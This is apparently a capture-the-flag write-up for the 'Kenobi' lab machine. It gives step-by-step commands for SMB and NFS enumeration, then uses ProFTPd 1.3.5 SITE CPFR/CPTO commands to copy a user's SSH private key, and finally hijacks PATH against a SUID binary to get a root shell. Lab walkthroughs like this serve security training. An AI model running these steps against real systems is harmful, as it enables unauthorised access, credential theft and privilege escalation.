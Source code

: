 # Kenobi

Tasks:

1. Deploy the vulnerable machine:
   1. Do usual nmap scan with `nmap -sV ip` and complete the task.
2. Enumerating samba for shares:
   1. Do scan with `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse ip`
   2. Connect to anonymous smb share with no password `smbclient //ip/anonymous`&#x20;
   3. Get all files from share recursively using `smbget -R smb:///anonymous` .You can see there's log.txt which gives information about ftp port number and also kenobi's ssh private key location.
   4. From nmap output port 111 is open and rpcbind running behind it. Use `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount ip` to enumerate mount - /var is available as mount through network file system.
3.  Gain initial access with ProFTPd:

    1. Use `nc ip 21` to connect to ftp. ProFTPd version used is 1.3.5. Use searchsploit find exploits  for the ProFTPd server used. &#x20;
    2. connect to ftp server and type `SITE CPFR /home/kenobi/.ssh/id_rsa`  and `SITE CPTO /var/tmp/id_rsa` to copy ssh private key to nfs share.
    3. Mount NFS share to your machine , copy ssh private key from /var/tmp to current working directory and ssh into kenobi using&#x20;
       1. `mkdir /mnt/kenobiNFS`
          `mount machine_ip:/var /mnt/kenobiNFS`
          `ls -la /mnt/kenobiNFS`
       2. `cp /mnt/kenobiNFS/tmp/id_rsa .`
       3. `ssh -i id_rsa kenobi@ip`
    4. `cat /home/kenobi/user.txt` and submit user flag&#x20;

    
4. Privilege Escalation with Path Variable Manipulation:
   1. Find binaries with suid bit set using `find / -perm -u=s -type f 2>/dev/null` 
   2. /usr/bin/menu seems looks out of ordinary
   3. Using strings on menu , we find that curl is called without full path ,So we can copy /bin/sh as curl to tmp path and export tmp path using `echo /bin/sh > /tmp/curl`  , `chmod 777 /tmp/curl` , `export PATH=/tmp:$PATH` 
   4. Now run /usr/bin/menu and select option 1 , you will get root shell.
   5. `cat /root/root.txt` and submit root flag.



References:

1. [https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
